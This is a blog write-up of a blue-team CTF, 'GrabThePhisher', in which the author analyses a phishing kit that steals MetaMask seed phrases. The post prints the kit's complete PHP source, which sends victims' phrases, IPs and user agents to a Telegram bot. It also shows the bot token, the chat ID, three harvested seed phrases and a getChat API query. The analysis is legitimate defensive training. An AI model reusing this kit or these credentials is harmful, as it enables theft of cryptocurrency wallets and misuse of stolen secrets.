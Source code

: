 Hi, recently I have finished challenge [grabthephisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on cyber defenders.org. Let's check how to solve those puzzles.

# Solution

### 1 Which wallet is used for asking the seed phrase?

WWW display 3 wallets:

[![image-1658854441638.png](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)

I checked structure of web site directory. Only one directory contained suspicious PHP script:

```
c75-GrabThePhisher\pankewk\metamask\metamask.php
```

### 2 What is the file name that has the code for the phishing kit?

Suspicious file contains script written in PHP to gather intelligence and data from user.

### 3 In which language was the kit written?

Script is written in PHP language.

### 4 <span class="fw-bold">What service does the kit use to retrieve the victim's machine information?</span>

<span class="fw-bold">Code of the script:</span>

```php
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y"); //aaja


/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */


    $message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> " . $_POST["data"] . "
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";


sendTel($message);  
	
    function sendTel($message){
		$id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
		file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	

    }
    
    
    ?>
    
```

Line 3 shows the phisher is using Sypex Geo service to gather intelligence

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

### 5 How many seed phrases were already collected?

Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.

```php
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

File log.txt contains 3 entries:

```php
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

### 6 <span class="fw-bold">Write down the seed phrase of the most recent phishing incident?</span>

<span class="fw-bold">Line 36 shows that script is appending data in log file - FILE\_APPEND. It means that, the last written value will be in last position.</span>

### <span class="fw-bold">7 Which medium had been used for credential dumping?</span>

<span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>

```php
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
```

### 8 <span class="fw-bold">What is the token for the channel?</span>  


<span class="fw-bold">Line 33 contains variable named $token with value:</span>

```php
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

### 9 What is the chat ID of the phisher's channel?

Line 32 contains variable named $id with value:

```php
		$id = "5442785564"; 
```

### 10 <span class="fw-bold">What are the allies of the phish kit developer?</span>

<span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

### 11 What is the full name of the Phish Actor?

To answer this I had to get familiar with the telegram bot API. Full description of API is here: [https://core.telegram.org/bots/api#available-methods](https://core.telegram.org/bots/api#available-methods)

I used API method getChat.

All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:

```html
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

Response from Telegram API:

```json
{
	"ok": true,
	"result": {
		"id": 5442785564,
		"first_name": "Marcus",
		"last_name": "Aurelius",
		"username": "pumpkinboii",
		"type": "private",
		"photo": {
			"small_file_id": "AQADBQADCbQxG1rVIVYACAIAAxxRakQBAAM7fQl4M-jTyikE",
			"small_file_unique_id": "AQADCbQxG1rVIVYAAQ",
			"big_file_id": "AQADBQADCbQxG1rVIVYACAMAAxxRakQBAAM7fQl4M-jTyikE",
			"big_file_unique_id": "AQADCbQxG1rVIVYB"
		}
	}
}
```

Answer is concatenation of first\_name and last\_name from lines 5 and 6 in the response.

### 12 <span class="fw-bold">What is the username of the Phish Actor?</span>

<span class="fw-bold">Username is present in line 7 of request response.</span>

### END

It was very fun challenge, if you like my solutions read other posts on the blog.

Thank you for reading, have a nice day !
